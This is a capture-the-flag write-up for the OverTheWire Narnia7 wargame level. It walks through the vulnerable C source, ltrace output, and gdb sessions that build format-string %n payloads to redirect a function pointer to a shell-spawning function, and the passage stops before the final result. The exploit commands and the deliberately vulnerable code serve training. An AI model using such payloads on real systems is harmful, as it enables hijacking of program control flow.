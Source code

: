 #Narnia7

narnia.labs.overthewire.org

**Username:** narnia7
**Password:** see [narnia6](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria6)
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Let's go ahead and run the program and see what it does.
>
>```
# ./narnia7 AAAA
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xff9a7f5c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
>```
>
> Well, we can see what appears to be the addresses of a good function and hacked function and a reference to another address. No sign of our user-supplied input though. Let's look at the source and see if we can pick out what's going on.
>
>```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.
>
    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.
>
    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
>
int goodfunction();
int hackedfunction();
>
int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();
>
        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);
>
        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);
>
        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;
>  
        snprintf(buffer, sizeof buffer, format);
>
        return ptrf();
}
>
int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}
>
int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);
>        
        return 0;
}
>
int hackedfunction(){
        printf("Way to go!!!!");
	fflush(stdout);
        system("/bin/sh");
>
        return 0;
}
>```
>
> Ok, it seems pretty obvious looking at this code that we need to change ```ptrf``` from pointing to ```goodfunction``` to ```hackedfunction```.  Our input appears to be passed in directly to the ```snprintf``` function and is being used as the format value.  Sounds like we will be working on another string format issue.  Let's poke around at that first.
>
>```
# ./narnia7 $(python -c 'print "AAAA"+"%x"*10')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffa2277c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
# ./narnia7 $(python -c 'print "AAAA"+"%x"*100')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xfffc721c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
# ./narnia7 $(python -c 'print "AAAA"*1000')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xff9f57ac)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
>```
>
> Hmmm.  Nothing seems to be affecting it.  Even inserting 1000 ```A``` didn't phase it.  Looks like I'm going to have to do some more reseach on string format vulnerabilities.
>
> Here's a great article: [Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/28476.pdf)
>
> Let's try some of the stuff they are doing in there.
>
>```
# ltrace ./narnia7 $(python -c 'print "AAAA"+"%x"*10')
bash: ltrace: command not found
>```
>
> Looks like we'll have to do a quick ```apt-get install ltrace``` before we can test it out.
>
>```
# ltrace ./narnia7 $(python -c 'print "AAAA"+"%x"*10')
__libc_start_main(0x804868f, 2, 0xff942074, 0x8048740, 0x80487b0 <unfinished ...>
memset(0xff941f20, '\000', 128)                              = 0xff941f20
printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
)                   = 27
printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706
>
)               = 30
printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xff941f1cbefore : ptrf() = 0x80486e0 (0xff941f1c)
) = 41
puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
)                  = 50
sleep(2)                                                     = 0
snprintf("AAAA8a2f77acb58f77ac86080482fd80"..., 128, "AAAA%x%x%x%x%x%x%x%x%x%x", 0x8a2, 0xf77acb58, 0xf77ac860, 0x80482fd, 0x80486e0, 0x41414141, 0x66326138, 0x63613737, 0x66383562, 0x63613737) = 77
puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
)                  = 61
fflush(0xf77884e0)                                           = 0
exit(0 <unfinished ...>
+++ exited (status 0) +++
>```
>
>```
(gdb) run $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%8x%n"')
Starting program: /games/narnia/narnia7 $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%8x%n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...
>
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/10x 0xffffd60c
0xffffd60c:	0x0000003c	0xffffd60c	0x4b4e554a	0xffffd60d
0xffffd61c:	0x4b4e554a	0xffffd60e	0x4b4e554a	0xffffd60f
0xffffd62c:	0x38343038	0x66383332
(gdb) p 0x106-0x3c+8
$3 = 210
(gdb) run $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%210x%n"')
Starting program: /games/narnia/narnia7 $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%210x%n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...
>
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/10x 0xffffd60c
0xffffd60c:	0x00000106	0xffffd60c	0x4b4e554a	0xffffd60d
0xffffd61c:	0x4b4e554a	0xffffd60e	0x4b4e554a	0xffffd60f
0xffffd62c:	0x38343038	0x66383332
(gdb) p 0x187-0x106
$10 = 129
(gdb) run $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%210x%n%129x%n"')
Starting program: /games/narnia/narnia7 $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%210x%n%129x%n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffffd5fc)
I guess you want to come to the hackedfunction...
>
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/10x 0xffffd60c
0xffffd60c:	0x00018706	0xffffd600	0x4b4e554a	0xffffd60f
0xffffd61c:	0x38343038	0x66383332	0x64666666	0x66383536
0xffffd62c:	0x64666637	0x30343961
>```
